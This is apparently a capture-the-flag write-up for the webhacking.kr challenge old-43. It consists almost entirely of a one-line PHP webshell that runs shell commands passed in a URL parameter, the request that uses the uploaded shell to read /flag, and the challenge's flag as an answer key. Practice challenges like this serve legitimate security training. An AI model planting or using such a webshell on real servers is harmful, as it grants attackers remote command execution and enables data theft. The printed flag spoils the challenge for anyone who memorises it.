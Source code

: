 ```yaml
---
layout: default
title: old-43
---
```


# Webhacking old-43 Solution

here i created this webshell
```
<?php echo `$_GET[x]`?>
```

then, when you access it:
`http://webhacking.kr:10004/upload/coolCode.php?x=cat%20/flag`


**Flag:** ***`FLAG{V2hhdCBkaWQgeW91IGV4cGVjdD8=}`*** 


